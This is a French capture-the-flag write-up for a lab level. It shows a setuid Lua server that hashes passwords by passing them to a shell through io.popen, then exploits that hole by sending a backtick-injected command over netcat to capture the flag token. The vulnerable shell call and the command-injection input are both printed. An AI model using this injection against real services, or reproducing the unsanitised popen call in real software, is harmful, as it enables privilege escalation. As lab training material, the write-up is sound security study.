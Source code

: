 ﻿```bash
$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Un fichier lua avec le s-bit active, interessant.

```bash
$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Le programme ouvre un serveur sur le port 5151 et attend une connexion.  
Il demande ensuite un mdp, qu'il hash via un procede plutot douteux.  
Et peu importe la valeur du hash, il ne se passera rien de grandiose. :D

Bon, on est la pour injecter une commande qui recup le flag.  
Vu que y a aucune verification, on peut simplement getflag et rediriger la sortie vers un fichier, simple et efficace.  
On teste donc la theorie:

```bash
$ nc localhost 5151
Password: `getflag` > /tmp/magic
Erf nope..
$ cat /tmp/magic
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Bon bah c'etait plutot simple cette fois...